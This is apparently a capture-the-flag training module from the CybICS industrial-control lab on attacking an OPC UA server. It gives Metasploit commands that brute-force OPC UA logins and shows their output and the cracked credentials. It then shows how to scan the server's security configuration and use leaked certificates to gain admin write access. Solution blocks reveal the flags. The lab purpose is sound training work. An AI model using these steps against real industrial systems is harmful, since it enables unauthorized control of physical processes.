


# OPC UA

An OPC UA client is a software application that connects to an OPC UA server to read, write, and monitor data within industrial systems.
This client can interact with various devices and systems, enabling seamless communication and data exchange across different platforms and manufacturers.
OPC UA clients are integral to industrial automation, as they facilitate real-time data access and control, which is essential for efficient and safe operations.

In this example, we aim to perform an attack on an OPC UA system.
To proceed, install the opcua-client, which we will use for interaction following a successful attack.

```sh
pip3 install opcua-client
```

Remove configuration file for the OpcUaClient if there is any:
```sh
rm -rf .config/FreeOpcUa/OpcUaClient.conf
```

Simple communication between OPC UA server and client:
```
+------------------+       OPC UA Protocol     +------------------+
|                  | <------------------------>|                  |
|  OPC UA Client   |                           |  OPC UA Server   |
|   opcua-client   |                           |      CybICS      |
+------------------+                           +------------------+
```

## Brute forcing user password
Brute forcing an OPC UA system involves repeatedly attempting to guess the username and password until the correct combination is found.
This type of attack can give an unauthorized user access to sensitive industrial control systems, allowing them to manipulate device settings, disrupt operations, or steal critical data.
Due to the automated nature of brute force attacks, they can quickly compromise systems that lack strong password policies or account lockout mechanisms.

One way to log in to the OPC UA Server from the OPC UA Client is to use a username and a password. The objective of this part of the training is to reveal a valid username with the corresponding password. To do this, try to crack a user's authentication password using a brute force attack. Use the Metasploit module for OPC UA:   
https://github.com/COMSYS/msf-opcua/tree/master

To set up of the scanner module, follow the *Instructions* in the README.md of the link. It's necessary to install the opcua-module via pip: `pip3 install opcua`. Metasploit is installed in Kali by default. Add the `modules` directory found in this repository to the `modules` directory of Metasploit. This is located under the path `~/.msf4/modules`.   

Then use *opcua_hello* to verify that an OPC UA Server is running on an open port by following step 2 of the *Typical Workflow* described.   
If this is successful, follow step 4 and use *opcua_login* to brute force credentials for OPC UA Server instances. As input credential the input file, *credentials.txt* located in this folder should be used.   
(hints: IP 10.0.0.1, PORT 4840, FILE CybICS/training/opcua/credentials.txt)

In the case of a successful brute force attack, you should see the username and password labeled *success* as output. This procedure can also be traced in Wireshark and the usernames and passwords used in the attack can be read out in plaintext. 


### Get the user flag
The flag has the format "CybICS(flag)".

**Hint**: The flag is readable on the OPC UA system of the user, which you need to brute force
<details>
  <summary><strong><span style="color:orange;font-weight: 900">Solution</span></strong></summary>

  Check if connection to OPC UA works with:
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_hello
  msf6 auxiliary(scanner/opcua/opcua_hello) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_hello) > set rport 4840
  msf6 auxiliary(scanner/opcua/opcua_hello) > run
  ```

  Expected outcome:
  ```
  [*] Running for 10.0.0.1...
  [+] 10.0.0.1:4840 - Success
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

  Use `opcua_login` to bruteforce login:
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_login
  msf6 auxiliary(scanner/opcua/opcua_login) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_login) > set port 4840
  msf6 auxiliary(scanner/opcua/opcua_login) > set userpass file:<CybICS_root_Folder>/CybICS/training/opcua/credentials.txt
  ```

  Expected outcome:
  ```
  [*] Running for 10.0.0.1...
  [*] 10.0.0.1:4840 - Valid OPC UA response, starting analysis
  ...
  [+] 10.0.0.1:4840 - [101/132] - user1:test - Success
  ...
  ```

  Username: user1
  Passwort: test
  
  :anger: Flag: CybICS(OPC-UA)
  
</details>

## Getting an overview of the security configuration
Use the metasploit module `auxiliary/scanner/opcua/opcua_server_config` for this investigation

<details>
  <summary><strong><span style="color:orange;font-weight: 900">Solution</span></strong></summary>
  
  ```
  msf6 > use auxiliary/scanner/opcua/opcua_server_config
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set rhosts 10.0.0.1
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set rport 4840
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set username user1
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set password test
  msf6 auxiliary(scanner/opcua/opcua_server_config) > set authentication Username
  msf6 auxiliary(scanner/opcua/opcua_server_config) > run
  ```
</details>

## Getting admin access
Previously, you had read-only access to the variables, which meant you could view but not modify them.
The next step is to obtain admin access to the OPC UA device.
This will allow you to change the variables and acquire the admin flag.
From previous investigation, you found certificates used for the OPC-UA communication under `CybICS/software/opcua/certificates/trusted`.
Use the leaked certificates to authenticated to the OPC-UA system.

### Certificates in OPC UA

Certificates in OPC UA (Open Platform Communications Unified Architecture) are crucial for ensuring secure and trusted communication between clients and servers. OPC UA is designed with robust security features to protect data integrity, confidentiality, and authentication, and certificates play a key role in implementing these features.

#### Purpose of Certificates

- **Authentication**: Certificates authenticate the identities of OPC UA clients and servers. They verify that each party in a communication session is who they claim to be, helping to prevent unauthorized access and man-in-the-middle attacks.

- **Encryption**: Certificates enable encryption of data transmitted over OPC UA networks. This ensures that sensitive information is protected from eavesdropping and tampering by encrypting the communication channels between clients and servers.

- **Integrity**: Certificates help ensure data integrity by allowing both parties to validate that the data has not been altered during transmission. This is crucial for maintaining the reliability and accuracy of the information exchanged.

#### Types of Certificates

- **Application Instance Certificates**: These certificates are issued to individual OPC UA applications or devices. They help in uniquely identifying and authenticating each application instance within the OPC UA network.

- **Trust List Certificates**: OPC UA systems use trust lists to manage and verify certificates. Trust lists contain the certificates of trusted entities, such as clients and servers, and are used to establish trust relationships between them.

- **Self-Signed Certificates**: In some cases, OPC UA systems may use self-signed certificates. These are certificates signed by the entity itself rather than by a third-party certificate authority (CA). While self-signed certificates are useful for internal testing or development, they are typically less trusted than certificates issued by recognized CAs.

- **CA-Signed Certificates**: For more secure deployments, OPC UA systems often use certificates signed by a Certificate Authority (CA). CAs are trusted organizations that issue certificates after verifying the identities of the entities requesting them. CA-signed certificates are generally considered more reliable and secure.

#### Certificate Management

- **Issuance**: Certificates are issued either by a trusted CA or through internal mechanisms within an organization. The issuance process involves generating a certificate signing request (CSR), verifying the requester's identity, and issuing the certificate.

- **Revocation**: If a certificate is compromised or no longer needed, it should be revoked. Certificate revocation lists (CRLs) or online certificate status protocols (OCSP) are used to manage and communicate revoked certificates.

- **Renewal**: Certificates have expiration dates and need to be renewed periodically. Renewal ensures continued security and compliance with best practices.

- **Storage**: Certificates must be securely stored to prevent unauthorized access or tampering. OPC UA systems typically use secure storage mechanisms to protect certificates and their associated private keys.

#### Implementation in OPC UA

- **Security Policies**: OPC UA supports various security policies that define how certificates are used for encryption, signing, and authentication. These policies help tailor the security approach to meet specific requirements and use cases.

- **Key Pair Generation**: OPC UA applications generate and use asymmetric key pairs (public and private keys) in conjunction with certificates. The public key is included in the certificate, while the private key remains confidential.

- **Configuration**: OPC UA clients and servers must be properly configured to use certificates. This includes setting up trust lists, managing certificate expirations, and ensuring that all parties are using compatible security settings.

#### Summary

Certificates in OPC UA are essential for establishing secure, authenticated, and encrypted communication channels in industrial environments. They play a vital role in protecting data integrity, confidentiality, and authenticity. Effective management of certificates, including their issuance, storage, revocation, and renewal, is crucial for maintaining a secure OPC UA network and ensuring reliable operation of industrial control systems.

<details>
  <summary><strong><span style="color:orange;font-weight: 900">Solution</span></strong></summary>
  Use opcua-client and configure on `Connect option` the usage of the certificate.
  ```
  opcua-client
  ```

  Now you can change the variable `Set > 0 to obtain flag!` to a value bigger than zero and access the variable for the admin flag `adminFLAG`
  
  :anger: Flag: CybICS(OPC-UA-$ADMIN)
  
</details>